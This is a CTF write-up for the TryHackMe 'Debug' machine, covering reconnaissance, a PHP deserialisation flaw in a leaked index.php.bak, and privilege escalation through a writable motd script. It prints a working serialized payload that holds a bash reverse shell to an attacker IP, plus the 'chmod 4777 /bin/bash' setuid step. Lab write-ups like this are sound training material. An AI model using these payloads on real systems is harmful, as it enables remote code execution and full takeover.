 # Debug

---

Platform: Tryhackme

Difficulty: Medium

Initial Access: PHP deserialisation vulnerability

Privilege Escalation: Misconfigured File permissions

---

Nmap Scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/debug]
└─$ cat nmap.full 
# Nmap 7.95 scan initiated Wed Aug 13 01:00:03 2025 as: /usr/lib/nmap/nmap -Pn -A -p- --min-rate 4000 -oN nmap.full 10.201.23.26
Nmap scan report for 10.201.23.26
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/13%OT=22%CT=1%CU=42752%PV=Y%DS=5%DC=T%G=Y%TM=689C1C1
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%
OS:CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=A)SEQ(SP=F9%GC
OS:D=1%ISR=10D%TI=Z%CI=RD%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT
OS:11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=6
OS:8DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RU
OS:CK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports | Methodology |
| --- | --- |
| 22 (SSH) | Potentially for later use. |
| 80 (HTTP) | Apache httpd 2.4.18 version running on ubuntu. Have to look at what exactly is running there. |

Port 80:

Default Apache web page: It works!, nothing interesting even in source code.

![image.png](image.png)

And there was some static website hosted on `/index.php` endpoint.

![image.png](image%201.png)

Directory Fuzzing:

![image.png](image%202.png)

Direcoty fuzzing revealed an interesting endpoints to look - `/backup`  

![image.png](image%203.png)

From all those files, one file `index.php.bak` is of our interest, which potentially holds backend code used for that `index.php` endpoint.

Downloading that file and reviewing it’s code revealed a juicy detail or maybe potential vulnerablility in that code, basically vulnerable to php deserialisation.

![image.png](image%204.png)

What that code is doing?

- **Class Definition**
    - `FormSubmit` stores form data (`name`, `email`, `comments`) into a text file (`message.txt`).
    - `$form_file` is the file name.
    - `$message` stores the constructed message string.
- **SaveMessage() method**
    - Pulls values from `$_GET` without sanitization.
    - Builds `$this->message` with the form values.
- **__destruct() method**
    - Runs **automatically when the object is destroyed** (end of script).
    - Appends the `$message` to `message.txt` in the current directory.
    - Prints a success message.
- **Main execution**
    - `$debug = $_GET['debug'] ?? '';`
    - `$messageDebug = unserialize($debug);` ← **big problem**
    - Creates a new `FormSubmit` object.
    - Calls `SaveMessage()`.

Methodology:

- `unserialize()` on **unsanitized user input** (`$_GET['debug']`) lets an attacker create a serialized PHP object of any class — including `FormSubmit`.
- If an attacker injects a serialized `FormSubmit` object with a malicious `$form_file` (e.g., `/var/www/html/shell.php`) and `$message` containing PHP code, the destructor will **write** to that file, resulting in **Remote Code Execution (RCE)**.

---

### Initial Access

Following the above methodology, created a php serialised code containing for creating the payload, which contains reverse shell.

```bash
┌──(ghost㉿kali)-[~/tryhackme/debug]
└─$ cat test.php     
<?php
class FormSubmit {
    public $form_file = 'shell.php';
    public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.17.87.131/4445 0>&1\'");';
}
echo urlencode(serialize(new FormSubmit));
?>
```

This script will 

- create a new class named `FormSubmit`
- `$form_file` variable set to `shell.php` , meaning if this object is unserialized by vulnerable code, and later the object’s destructor writes to `$form_file`, it will write to a file named `shell.php` .
- `$message` variable contains malicious PHP code that executes a reverse shell.
- `serialize(new FormSubmit)` : Makes an object with those malicious property values.
- `urlencode()` encodes for flawless URL delivery.

Generated final payload via this php code.

![image.png](image%205.png)

At this point, just started netcat listner and delivered that payload to the `debug` parameter like these:

```bash
http://10.201.44.136/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A71%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.17.87.131%2F4445+0%3E%261%27%22%29%3B%22%3B%7D
```

```bash
http://10.201.44.136/shell.php
```

And went to `/shell.php` endpoint to trigger that reverse shell and got the shell back on my machine.

![image.png](image%206.png)

And here in that same directory, where we landed, there was a file `.htpasswd` which revealed james user’s password hash.

![image.png](image%207.png)

Cracked that hash via john the ripper

![image.png](image%208.png)

With the following credentials switched to user james in that same shell

![image.png](image%209.png)

Grabbed user flag in the james’s home directory:

![image.png](image%2010.png)

---

### Privilege Escalation

There was suspicious note file which revealed something juicy hint for us.

![image.png](image%2011.png)

Found out files from /etc directory, on which user james had write access to.

![image.png](image%2012.png)

Changed directory to `/etc/update-motd.d` where user james had write access and enumerating those files, found `00-header` file where we can easily add our commands too.

![image.png](image%2013.png)

Simply added `chmod 4777 /bin/bash` command in that file, which will set SETUID bit on /bin/bash binary, when we log in as user james via ssh.

![image.png](image%2014.png)

Logged in to user james account via SSH

![image.png](image%2015.png)

Executed /bin/bash binary and got euid set to root and now, we are able to read root.txt file.

![image.png](image%2016.png)

---

That’s it for this machine.✅